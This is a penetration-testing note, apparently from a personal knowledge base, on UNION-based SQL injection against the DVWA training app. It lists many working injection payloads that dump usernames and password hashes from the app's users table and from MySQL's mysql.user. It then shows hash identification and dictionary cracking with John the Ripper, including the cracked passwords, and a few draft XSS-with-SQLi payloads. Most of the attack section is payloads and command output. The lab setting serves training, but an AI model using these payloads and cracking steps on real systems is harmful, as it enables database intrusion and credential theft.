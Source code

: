 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - post-exploitation
  - server-side-attack
  - sql-injection
  - union
  - credential-access-and-dumping
  - dvwa
---
```

# 02 - Data Collection

## 2.1 - Dump Credentials

### 2.1.1 - Current Database Credentials

- This is useful when grabbing the credentials to find a login panel with administrative privileges. Moreover, it is possible to reuse the credentials when facing network protocols. Let's query the credentials from the current database.

```sql
' UNION SELECT user, password FROM users#
```

![[01 - Dump Credentials From Current DB.png]]

- Let's concatenate it to organize it nicely.

```sql
' UNION SELECT user || ':' || password, NULL FROM users#

' UNION SELECT concat(user,':',password), NULL FROM users#

' UNION SELECT concat(user,0x3a,password), NULL FROM users#

' UNION SELECT group_concat(user,':',password), NULL FROM users#

' UNION SELECT group_concat(user,0x3a,password), NULL FROM users#

' UNION SELECT concat(user,'~',password), NULL FROM users#

' UNION SELECT group_concat(user,'~',password), NULL FROM users#

' UNION SELECT concat(user,'\n',password), NULL FROM users#

' UNION SELECT concat(user,0x0a,password), NULL FROM users#

' UNION SELECT group_concat(user,0x0a,password), NULL FROM users#
```

![[02 - Formatted Dumped Credentials From Current DB.png]]

Copy the concatenated usernames and hashed credentials and output it in a file.

```
$ echo "admin:5f4dcc3b5aa765d61d8327deb882cf99,gordonb:e99a18c428cb38d5f260853678922e03,1337:8d3533d75ae2c3966d7e0d4fcc69216b,pablo:0d107d09f5bbe40cade3de5c71e9e9b7,smithy:5f4dcc3b5aa765d61d8327deb882cf99" | tr "," "\n" > current_db_hashes.txt
```

### 2.1.2 - Crack Current Database Password Hashes

Let's identify what hash algorithm it uses before we could crack it. Let's run [[Name-That-Hash]].

```
$ nth --no-banner --no-hashcat --text '5f4dcc3b5aa765d61d8327deb882cf99'

5f4dcc3b5aa765d61d8327deb882cf99

Most Likely 
MD5, JtR: raw-md5 Summary: Used for Linux Shadow files.
MD4, JtR: raw-md4
NTLM, JtR: nt Summary: Often used in Windows Active Directory.
Domain Cached Credentials, JtR: mscach

Least Likely
Domain Cached Credentials 2, JtR: mscach2 Double MD5,  Tiger-128,  Skein-256(128),  Skein-512(128),  Lotus Notes/Domino 5, JtR: lotus5 
md5(md5(md5($pass))), Summary: Hashcat mode is only supported in hashcat-legacy. md5(uppercase(md5($pass))),  md5(sha1($pass)),  
md5(utf16($pass)), JtR: dynamic_29 md4(utf16($pass)), JtR: dynamic_33 md5(md4($pass)), JtR: dynamic_34 Haval-128, JtR: haval-128-4 RIPEMD-128, 
JtR: ripemd-128 MD2, JtR: md2 Snefru-128, JtR: snefru-128 DNSSEC(NSEC3),  RAdmin v2.x, JtR: radmin Cisco Type 7,  BigCrypt, JtR: bigcrypt
```

We will crack the `raw-md5` hashes with [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xC - Password Cracking/Offline/John The Ripper/Usage|John The Ripper (JTR)]] with a dictionary attack using `/usr/share/wordlists/rockyou.txt.gz` wordlist.

```
$ sudo gzip -cdk /usr/share/wordlists/rockyou.txt.gz > /usr/share/wordlists/rockyou.txt
```

All the hashed credentials are cracked.

```
$ john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt current_db_hashes.txt
Using default input encoding: UTF-8
Loaded 4 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
password         (admin)
abc123           (gordonb)
letmein          (pablo)
charley          (1337)
4g 0:00:00:00 DONE (2023-10-04 10:51) 80.00g/s 61440p/s 61440c/s 92160C/s my3kids..dangerous
Warning: passwords printed above might not be all those cracked
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

TODO: Add XSS for easier view

```sql
' UNION SELECT group_concat(user,':',password), <script>alert()</script>, NULL FROM users#

' UNION SELECT group_concat(user,':',password), <hex_encoded_XSS>, NULL FROM users#

' <script>alert(UNION SELECT group_concat(user,':',password), NULL FROM users)</script>#

' <script>alert(UNION SELECT group_concat(user,0x3a,password), NULL FROM users)</script>#
```

### 2.1.3 - MySQL Hashdump

- This will be useful for authenticating the MySQL DBMS server with an exposed port that allows the attacker the harvest the whole database. In addition, sometimes system administrators reuse the credentials which gives the attacker a leverage authenticate it remotely. Run a port scanner with a fingerprinting tool `nmap` to find open ports. Let's query the credentials from the MySQL server database.

```sql
' UNION SELECT user, password FROM mysql.user#
```

![[03 - Hashdump From DBMS.png]]

```sql
' UNION SELECT user || ':' || password, NULL FROM mysql.user#

' UNION SELECT concat(user,':',password), NULL FROM mysql.user#

' UNION SELECT concat(user,0x3a,password), NULL FROM mysql.user#

' UNION SELECT group_concat(user,':',password), NULL FROM mysql.user#

' UNION SELECT group_concat(user,0x3a,password), NULL FROM mysql.user#

' UNION SELECT concat(user,'~',password), NULL FROM mysql.user#

' UNION SELECT group_concat(user,'~',password), NULL FROM mysql.user#

' UNION SELECT concat(user,'\n',password), NULL FROM mysql.user#

' UNION SELECT concat(user,0x0a,password), NULL FROM mysql.user#

' UNION SELECT group_concat(user,0x0a,password), NULL FROM mysql.user#
```

![[04 - Formatted Hashdump From DBMS.png]]

Copy the concatenated hashdump credentials and output it in a file.

```
$ echo "root:*4F56EF3FCEF3F995F03D1E37E2D692D420111476,dvwa:*D7E39C3AF517EC9EF7086223B036E0B4F22821F8" | tr "," "\n" > mysql_hashes.txt
```

### 2.1.4 - Crack MySQL Server Password Hashes

Let's identify what hash algorithm it uses before we could crack it. Let's run [[Haiti]].

```
$ haiti --john-only "*4F56EF3FCEF3F995F03D1E37E2D692D420111476"
MySQL5.x [JtR: mysql-sha1]
MySQL4.1 [JtR: mysql-sha1]
```

We will crack the `mysql-sha1` hashes with [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xC - Password Cracking/Offline/John The Ripper/Usage|John The Ripper (JTR)]] with a dictionary attack using `/usr/share/wordlists/rockyou.txt` wordlist.

```
$ john --format=mysql-sha1 --wordlist=/usr/share/wordlists/rockyou.txt mysql_hashes.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (mysql-sha1, MySQL 4.1+ [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
p@ssw0rd         (dvwa)     
1g 0:00:00:01 DONE (2023-10-04 15:27) 0.5617g/s 8057Kp/s 8057Kc/s 8063KC/sa6_123..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x04 - Credential Access and Dumping/Cross Platform/Databases/SQL/Hashdump/MySQL|MySQL Active Enumeration]]

### SecurityIdiots

- [SecurityIdiots: XSS Injection with SQLi (XSSQLi)](https://www.securityidiots.com/Web-Pentest/SQL-Injection/xss-injection-with-sqli-xssqli.html)